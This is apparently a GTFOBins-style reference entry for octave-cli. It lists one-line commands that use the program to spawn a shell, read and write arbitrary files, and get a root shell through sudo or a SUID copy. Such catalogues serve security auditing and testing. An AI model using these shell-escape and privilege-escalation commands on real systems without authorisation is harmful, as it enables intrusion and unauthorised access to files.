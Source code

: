 ```yaml
---
description: The payloads are compatible with GUI.
functions:
  shell:
    - code: octave-cli --eval 'system("/bin/sh")'
  file-write:
    - code: octave-cli --eval 'filename = "file_to_write"; fid = fopen(filename, "w"); fputs(fid, "DATA"); fclose(fid);'
  file-read:
    - code: octave-cli --eval 'format none; fid = fopen("file_to_read"); while(!feof(fid)); txt = fgetl(fid); disp(txt); endwhile; fclose(fid);'
  sudo:
    - code: sudo octave-cli --eval 'system("/bin/sh")'
  limited-suid:
    - code: ./octave-cli --eval 'system("/bin/sh")'
---
```

